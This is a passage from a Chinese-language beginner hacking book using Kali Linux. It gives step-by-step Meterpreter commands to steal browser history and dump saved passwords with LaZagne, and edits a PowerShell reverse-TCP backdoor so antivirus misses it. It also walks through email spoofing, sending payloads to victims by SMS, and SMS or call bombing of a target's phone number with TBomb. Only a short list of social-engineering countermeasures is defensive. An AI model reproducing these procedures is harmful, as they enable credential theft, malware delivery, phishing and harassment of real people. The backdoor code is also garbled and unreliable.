msf6 post(windows/gather/forensics/browser_history) >
```

在任务栏中指示上述模块。这使得会话能够运行。执行成功后，它被保存在 `/root/.msf4/local` 文件中。

之后，我们现在需要将此文件复制到桌面。为此，你必须在运行此命令之前通过输入 `cd /root/.msf4/local` 进入该目录。确保你在根目录下。

你会发现一个扩展名为 ".sqlite" 的文件。在桌面上创建一个新文件夹，然后将 .sqlite 文件复制到其中。

```
root@kali:~/.msf4/local# cp -r Vidya_Firefox_dmd6n6mt.default-release_places.sqlite /home/anon/Desktop/history
root@kali:~/.msf4/local#
```

现在从应用程序菜单中打开 SQLite 应用程序。打开此应用程序后，点击数据库然后打开它。接着找到 ".sqlite" 文件。这将让你看到所有的浏览数据和历史记录。

## 提取保存的密码

第二节旨在展示如何使用 Lazagne 从目标个人电脑中提取保存的密码。

Lazagne 是一款用于获取保存密码的密码恢复工具。该工具可用于获取各种类型的密码。

请遵循以下规定的步骤，从目标系统和位置获取密码：

- 1. 从 GitHub 下载 Lazagne.exe。

- 2. 将 lazagne.exe 上传到目标系统。

```
meterpreter > pwd
C:\Users\Lucifer\Downloads
meterpreter > upload /root/Downloads/lazagne.exe
[*] uploading : /root/Downloads/lazagne.exe -> lazagne.exe
[*] uploaded : /root/Downloads/lazagne.exe -> lazagne.exe
meterpreter >
```

进入你希望上传文件的目录。你也可以通过输入 `cd` 来更改此目录，并像在 Kali Linux 中一样通过输入 "cd .." 返回上级。

如果在上传文件时遇到任何问题，请将你的 payload 切换到任何其他服务并再次尝试。

使用上传命令并使用与示例中相同的文件路径来上传文件。

- 3. 执行 lazagne.exe

```
meterpreter > shell
Process 352 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Users\Lucifer\Downloads>lazagne.exe
```

要执行 lazagne.exe，请进入你已经上传目标文件的目录。输入 "shell" 打开 shell 并使用它来执行命令。

之后，你将需要运行该命令。你可以通过输入 "lazagne.exe" 来实现这一点。

- 4. 提取密码。

在最后一个阶段，你现在需要获取感兴趣的密码。按下 "enter" 键来触发此操作。这将打开 shell。你可以选择特定地建模或一次性全部建模。在我的案例中，我运行了所有项目以进行演示。这让我获得了存储的密码。

### 反病毒规避

在我们向目标发送后门之前，我们必须使其无法被反病毒程序检测到。

这只有在我们进入 Meterpreter 会话后才能实现。在掌握绕过各种反病毒程序的方法和途径之前，我们必须首先了解这些程序是如何工作的，以及它们如何检测病毒。这是我们能使其完全成功的唯一方法。

### 反病毒程序如何检测病毒？

这些程序扫描程序、文件和应用，并将它们的代码与公司数据库中已经存储的信息进行比较。如果代码与数据库中的代码相匹配，则被认为是病毒。

### 使 Windows 后门不可检测

这是通过使后门核心与数据库中的信息截然不同来实现的。就此而言，它可以轻松绕过反病毒程序。

这反过来需要基础编程知识。因此，我将教你一些不需要精通任何编程语言即可使用的方法。

在我们尝试进入该部分的努力中，我们为 Windows 生成了一个 PowerShell reverse TCP 后门。让我们在本节中看看它的代码。

```batch
@echo off
if %PROCESSOR_ARCHITECTURE%==x86 (powershell.exe -NoP -NonI -W Hidden -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(String) ([IO.Compression.CompressionModel]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();" ) else (%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(String) ([IO.Compression.CompressionModel]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();")
```

只有少数几点我们需要理解。现在让我们观察其中的每一项，以便删除或合并那些对使我们的 Payload 不可检测产生影响的代码。

`%PROCESSOR_ARCHITECTURE%==x86`

该参数描述了 x86 架构的处理器，即基于 32 位的处理器。

`-NoP`

这个缩写代表 "no profile"（无配置文件）。它不具备加载 PowerShell 配置文件的能力。它不会对后门的功能产生不利影响，只会使其看起来与其他计算机程序不同。


#### -NonI

意为非交互式（Non-Interactive）。当被触发使用时，它不会向用户显示交互式提示。此外，对于脚本运行来说，它其实并非绝对必要。我选择删除该参数，且不会影响后门的正常运作。

#### -W Hidden

它用于设置当前会话的窗口样式。其有效值分别指定为：最小化（minimized）、正常（normal）、隐藏（hidden）和最大化（maximized）。这是一个非常重要的参数，因此绝不能被绕过或删除。

改变备选方案的顺序也有助于绕过反病毒程序。同样地，我们还可以引入几个额外的选项，这些选项显然对 Payload 的运行没有任何影响。

如果你已经正确地收集了必要信息，并且非常熟悉受害者操作系统的架构，你还可以删除系统中关于架构的冗余代码。

例如，我的受害者使用的是 32 位操作系统。因此我可以删除 64 位架构的代码，这一事实将帮助我绕过更多的反病毒程序。

在我的案例中，我删除了 64 位架构代码。现在只有两个反病毒程序能够检测到该后门。很有可能你的受害者也没有安装这些反病毒程序。

```batch
```batch
@echo off
%PROCESSOR_ARCHITECTURE%==x86 (powershell.exe -NoProfile -NonI -WindowStyle -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String("zVZtb9pIEP7OrxhZe6rdYMe8NJfEQmpKmpa20FwgSe8QqhZ7gS ZVZtb9pIEP7OrxhZe6rdYMe8NJfEQmpKmpa20FwgSe8QqhZ7gS [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();"
```

如果你学习了编程基础，那么你可以绕过任何反病毒程序。我们将在“高级反病毒规避”章节中详细探讨这一特性。

## 文件传输

### 匿名短信发送

### 为什么电子邮件欺骗（Email Spoofing）对黑客攻击有用？

这种技术潜在地极其有用，因为它能让你在向任何地址发送信件的同时，向所有人隐藏你的身份。通过这种方式，你可以有效地操纵目标受害者。

#### 实践操作

- 1. 访问 www.aap.smp2go.com，然后使用你的电子邮件地址和密码登录。如果你还没有账号，可能需要先创建一个。
- 2. 点击“settings”（设置），然后进入“user”（用户）选项卡。
- 3. 点击“add smtp”（添加 SMTP）。
- 4. 进入 Kali Linux 并打开终端。然后，输入以下命令：

```
Sendemail –f (你想要发送邮件给受害者的发件邮箱) –t (目标邮箱) –u (主题) –m (你的消息内容) –s (你的 SMTP 服务器地址) (smtp 端口) –xu (你在 smpt2go.com 注册的邮箱) –xp (你的 smpt2go 账户密码)
```

然后，点击“Enter”（回车）。

要查看你的 SMTP 服务器和端口，请进入“settings”然后前往“user”。在底部，你会看到 SMTP 端口和服务器。

#### 社会工程学对抗措施

幸运的是，有很多优秀的对抗措施可以用来处理社会工程学问题。以下是其中一部分：

- 为员工提供适当的培训。这包括教他们无论是在电话中还是在面对面时，都要要求对方提供适当的身份证明。
- 为不同等级的敏感信息赋予不同的价值。这可能涉及电话号码、用户名、密码、URL 等。赋予的价值越高，安全级别越高。
- 培训员工保持警惕。换句话说，确保你培训员工去核实呼叫者想要获取特权信息的原因，并要求其获得访问授权。
- 培训员工在点击邮件中的链接前先进行核实。应告知员工使用书签链接，而不是使用在任何电子邮件中发现的链接。
- 处理掉敏感文档。不要将它们留在文件柜或办公桌上，而应先将其粉碎或烧毁。在敏感信息不再需要后将其清除，不会给社会工程学攻击者留下任何痕迹。
- 光盘和电子设备也应被摧毁。这可以通过专门的粉碎工具或通过用 1 和 0 覆盖计算机配件来实现。
- 停止给陌生人“疑点利益”（盲目信任）。质疑他们的故事。
- 确保你了解并理解公司的隐私政策。该政策能让你知道谁可以访问，谁不可以访问建筑物的某些部分。
- 锁定你的笔记本电脑。这样，未经授权的人就无法访问你的文件。

### 匿名短信发送

在本节（本书的最后一部分）中，我们将解释如何通过短信（SMS）传递 Payload。这种方法非常有效，且与电子邮件相比，其冒犯性较低。此外，与其他通信模式相比，短信更不容易被忽略。

在我们的案例中，我们将使用同样的方法来营销和推广我们的产品。为此，我使用一个名为 localtext.com 的网站。你也可以自由地使用你所在国家的任何其他类似网站。

以下步骤将帮助我发送消息：

- 1. 注册并激活账户：一切从创建和激活账户开始。许多公司通常会在试用期提供免费短信。你可以利用这些短信发送 Payload。大多数情况下，注册过程非常简单，因此我们不再赘述。我使用了一家名为 localtext 的公司，它为我提供了 10 条免费试用短信。
- 2. 进入“send SMS”（发送短信）选项。我在任务栏中访问了“send text message”（发送文本消息）选项，然后点击“send SMS”按钮。
- 3. 撰写并发送消息。完成上述操作后，我现在撰写并发送消息。这仅涉及填写两个部分，即消息内容和号码。你也可以在网上下载短信模板。

请务必注明直接下载链接，以防止受害者要求进行任何确认。完成所有操作后，你现在可以点击“send SMS”按钮。

软件会要求你确认。

## 奖赏章节

### Kali Linux 的趣味玩法

在这里，我们将学习使用 Kali Linux 执行短信炸弹（SMS bombing）和电话炸弹（call-bombing）的步骤。

在对受害者执行这种短信炸弹时，他们会收到大量消息；我们也可以用同样的技巧来愚弄朋友。

目前我们将使用的工具是 Tbomb。到目前为止，它是最好用且最简单的工具。前往 Google 搜索“Tbomb github”，然后复制 “git clone” 的统一资源定位符（URL）。

然后，按照以下步骤完成练习。

- 1. 打开终端，然后输入 “git clone”。粘贴上述链接并按下 “enter” 键。

```
root@kali:/home/anon/Desktop# git clone https://github.com/TheSpeedX/TBomb.git
Cloning into 'TBomb'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 426 (delta 5), reused 17 (delta 5), pack-reused 404
Receiving objects: 100% (426/426), 1.57 MiB | 1.58 MiB/s, done.
Resolving deltas: 100% (219/219), done.
```

- 2. 将当前目录更改为 “tbomb”，然后输入 “ls” 以生成该目录中所有文件的列表。

```
root@kali:/home/anon/Desktop/TBomb# ls
apidata.json  isdcodes.json  README.md        TBomb.sh
bomber.py     LICENSE        requirements.txt
root@kali:/home/anon/Desktop/TBomb#
```

在运行 “TBomb.sh 文件” 之前，我们需要将其转换为可执行版本。

- 3. 输入 `chmod +x TBomb.sh`

```
root@kali:/home/anon/Desktop/TBomb# chmod +x TBomb.sh
```


```
root@kali:/home/anon/Desktop/TBBomb#
```

#### 2. 输入 ./TBBomb.sh 来运行 TBBomb。


```
For Any Queries Mail Me!!!
Mail: ggspeedx29@gmail.com
YouTube: https://www.youtube.com/c/GyanaTech
```

> **请仔细阅读指令 !!!**

- 按 1 开始 SMS 轰炸 (短信轰炸)
- 按 2 开始 CALL 轰炸 (电话轰炸)
- 按 3 开始 MAIL 轰炸 (邮件轰炸)
- 按 4 进行更新 (适用于 Linux 和 Linux 模拟器)
- 按 5 退出

以上所有步骤在安装软件包时都需要一些时间。在本示例中，我们将使用其中四个选项：电话轰炸弹、短信炸弹、邮件炸弹以及更新。

安装操作完成后，首先要进行的是“更新”。因此，让我们首先更新 “tbomb”。

#### 3. 输入 4 并按下 “回车键”。


```
Downloading Latest Files...
UPDATING ........
[ ✓ ] TBomb was updated to the latest version
Please run the script again to load the latest version
RUN TBomb Again...
Press any key to continue...
```

现在我们已经能够执行轰炸攻击了。现在尝试一下 SMS 轰炸吧？

4. 指定目标受害者的国家代码。


5. 指定受害者的电话号码并按下 “回车键”。

```
[✓] Version: v2.0b1
[#] Contributors: SpeedX t0xic0der scpketer Stefan

[#] Checking for updates
[✓] TBomb is up-to-date
Starting TBomb
```

> **通知：弃用警告：**
所有低于 V2.0 的 TBOMB 版本在 2020-11-14 之后将不再可用。
所有 TBOMB 用户需要尽快更新至 V2.0。

```
[→] Enter your country code (Without +): 91
[→] Enter the target number: +91 6260[REDACTED]
[→] Enter number of SMS to send (Max 500):
```

- 6. 指定要发送的短信数量，我们一次不能发送超过 500 条短信。

```
[→] Enter number of SMS to send (Max 500): 10
[→] Enter delay time (in seconds):
```

- 7. 现在，输入以秒为单位的延迟时间并按下 “回车键”。

```
[ # ] Gearing up the Bomber - Please be patient
Please stay connected to the internet during bombing
Target    : 91624[redacted]
Amount    : 10
Threads   : 0 threads
Delay     : 1.0 seconds
[ ! ] This tool was made for fun and research purposes only
[ -> ] Press [CTRL+Z] to suspend the bomber or [ENTER] to resume it
```

现在我们可以看到轰炸攻击已经开始了。

### 接下来的计划是什么？

你现在对 Kali Linux 及其工具有了基本的了解。在本书中，我们仅涵盖了客户端攻击和 Kali Linux 的基础知识，因为本书是为初学者编写的，我们希望将事情简单化、清晰化。在本书的下一版中，我们将通过实际操作视频涵盖高级概念。在下一版中，我们将重点关注 Web 应用程序攻击。

我强烈建议学习 bash 和 power shell，因为这可以帮助你将许多枯燥的渗透测试任务自动化。
